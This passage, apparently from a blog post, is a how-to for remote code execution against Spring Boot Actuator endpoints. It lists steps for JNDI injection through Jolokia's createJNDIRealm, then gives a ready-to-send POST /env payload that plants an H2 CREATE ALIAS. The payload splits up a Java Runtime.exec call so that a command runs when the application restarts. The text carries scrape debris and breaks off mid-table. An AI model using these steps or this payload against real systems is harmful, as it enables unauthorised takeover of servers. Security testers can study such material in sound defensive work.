 [](https://www.blogger.com/#)

#### Vulnerability principle:

- Use jolokia to call createJNDIRealm to create JNDIRealm

- Set the connectionURL address to RMI Service URL

- Set context factory to RegistryContextFactory

- Stop Realm

- Start Realm to trigger JNDI injection of specified RMI address, causing RCE vulnerability

[](https://www.blogger.com/#)

#### Vulnerability Analysis:

- [Yet Another Way to Exploit Spring Boot Actuators via Jolokia (<https://www.veracode.com/blog/research/exploiting-spring-boot-actuators>)\
[](https://www.blogger.com/#)**Vulnerable environment:\
**\
[repository/springboot-jolokia-logback-rce](https://www.blogger.com/#)

Normal access:

```
http://127.0.0.1:9094/env _
```

### h2 Database Query RCE

**[](https://www.blogger.com/#)Conditions of use:**

- You can POST requests to the /envinterface set properties

- You can restart the application by POST requesting the /restartinterface (there is a spring-boot-starter-actuator dependency)

- Existing com.h2database.h2dependencies (version requirements are currently unknown)

**How to use:**\
[](https://www.blogger.com/#)**Step 1:** Set the spring.datasource.hikari.connection-test-query property

- The 'T5' method in the payload below needs to be renamed (such as T6) after each command is executed before it can be recreated and used, otherwise, the vulnerability will not be triggered when the application is restarted next time

**spring 1.x (execute the command without echo)**

|

POST /env

Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');
